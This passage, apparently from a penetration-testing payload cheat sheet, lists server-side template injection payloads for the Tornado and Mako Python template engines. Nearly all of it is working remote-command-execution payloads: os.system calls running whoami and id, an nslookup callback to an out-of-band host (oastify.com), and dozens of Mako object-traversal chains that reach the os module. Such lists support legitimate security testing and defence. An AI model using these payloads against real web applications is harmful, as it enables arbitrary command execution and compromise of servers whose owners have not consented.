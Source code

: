 ### Tornado - Remote Command Execution

```py
{{os.system('whoami')}}
{%import os%}{{os.system('nslookup oastify.com')}}
```

---

## Mako

[Official website](https://www.makotemplates.org/)
> Mako is a template library written in Python. Conceptually, Mako is an embedded Python (i.e. Python Server Page) language, which refines the familiar ideas of componentized layout and inheritance to produce one of the most straightforward and flexible models available, while also maintaining close ties to Python calling and scoping semantics.

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

### Mako - Remote Command Execution

Any of these payloads allows direct access to the `os` module

```python
${self.module.cache.util.os.system("id")}
${self.module.runtime.util.os.system("id")}
${self.template.module.cache.util.os.system("id")}
${self.module.cache.compat.inspect.os.system("id")}
${self.__init__.__globals__['util'].os.system('id')}
${self.template.module.runtime.util.os.system("id")}
${self.module.filters.compat.inspect.os.system("id")}
${self.module.runtime.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.util.os.system("id")}
${self.template.__init__.__globals__['os'].system('id')}
${self.module.cache.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.util.os.system("id")}
${self.template.module.cache.compat.inspect.os.system("id")}
${self.module.cache.compat.inspect.linecache.os.system("id")}
${self.template._mmarker.module.runtime.util.os.system("id")}
${self.attr._NSAttr__parent.module.cache.util.os.system("id")}
${self.template.module.filters.compat.inspect.os.system("id")}
${self.template.module.runtime.compat.inspect.os.system("id")}
${self.module.filters.compat.inspect.linecache.os.system("id")}
${self.module.runtime.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.exceptions.util.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.util.os.system("id")}
${self.context._with_template.module.cache.util.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.template.module.cache.util.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.util.os.system("id")}
${self.module.cache.util.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.linecache.os.system("id")}
${self.module.runtime.exceptions.traceback.linecache.os.system("id")}
${self.module.runtime.exceptions.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.compat.inspect.os.system("id")}
${self.template.module.cache.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.cache.util.os.system("id")}
```